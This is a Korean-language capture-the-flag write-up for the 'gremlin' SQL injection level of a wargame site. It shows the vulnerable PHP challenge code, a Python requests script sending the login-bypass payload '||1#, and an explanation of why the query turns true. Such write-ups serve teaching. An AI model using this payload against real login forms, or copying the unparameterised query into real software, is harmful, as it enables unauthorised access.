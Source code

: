 ## GREMLIN Write-up

### 문제
``` php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

### Exploit 코드
``` python
import requests

url = "http://los.rubiya.kr/gremlin_280c5552de8b681110e9287421b834fd.php"
session = {'PHPSESSID' : 'My PHPSESSID'}
data = {}
data['id'] = "'||1#"

res = requests.get(url, params=data, cookies=session)

if "Clear!" in res.text :
    print("[♪] GREMLIN Clear!")
```

python으로 HTTP 요청을 보내 응답을 받기 위해 requests 모듈을 사용했다.
``` php
if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
```
GET으로 전송된 id와 pw를 필터링 하는 부분이다.
``` php
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
```
id에서 싱글쿼터 필터링을 안하는 점을 이용해 우회할 수 있다.
id에 **'||1#** 을 입력해주면 쿼리문이 참이 된다.
``` php
select id from prob_gremlin where id=''||1#' and pw=''
```
쿼리문이 위와 같이 되고, **$result['id']** 에 값이 있어 문제가 풀린다.
